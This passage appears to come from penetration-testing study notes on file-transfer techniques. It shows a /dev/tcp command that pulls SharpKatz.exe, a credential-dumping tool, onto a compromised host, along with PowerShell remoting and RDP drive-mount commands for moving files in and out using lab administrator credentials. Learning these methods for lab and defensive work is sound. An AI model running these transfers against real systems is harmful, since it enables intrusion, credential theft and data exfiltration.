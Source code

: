 
Compromised Machine Connecting to Netcat Using `/dev/tcp` to Receive the File
```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

#### <span class="red-command">Powershell remoting</span>
Useful for scenarios where HTTP, HTTPS, or SMB are unavailable. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.  

Test the connection to computer DATABASE01
```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Create a PowerShell Remoting session to DATABASE01
```powershell
$Session = New-PSSession -ComputerName DATABASE01
```

Copy samplefile.txt from our Localhost to the DATABASE01 Session
```powershell
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

#### <span class="red-command">RDP</span>
`rdesktop` or `xfreerdp` can be used to expose a local folder in the remote RDP session.

Mounting a Linux Folder Using rdesktop
```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

Mounting a Linux Folder Using xfreerdp
```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
